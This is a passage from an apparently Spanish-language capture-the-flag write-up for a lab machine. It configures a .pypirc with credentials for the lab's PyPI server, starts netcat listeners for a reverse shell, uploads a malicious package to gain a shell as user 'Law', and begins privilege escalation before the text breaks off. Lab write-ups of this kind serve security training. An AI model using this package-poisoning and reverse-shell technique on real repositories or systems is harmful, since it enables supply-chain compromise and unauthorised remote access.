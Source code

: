 ```bash
rm ~/.pypirc
vi ~/.pypirc
```

El contenido del fichero `.pypirc` seria

```bash
[distutils]
index-servers = remote

[remote]
repository = http://pypi.sneakycorp.htb:8080
username = pypi
password = soufianeelhaoui
```

Ahora podemos enviarlo

1. Nos ponemos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Enviamos el paquete al pypi server

    ```bash
    python3 setup.py sdist upload -r remote
    ```

1. Tenemos una shell pero primero nos a ejecutado desde nuestro propio equipo

    - no ponemos una vez mas en escucha al puerto 443

        ```bash
        nc -nlvp 443
        ```

    - en el primero shell le damos a exit

Y ya esta

```bash
whoami
#Output
Law
```

Ya le podemos hacer un nuevo tratamiento de la TTY.

## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
```
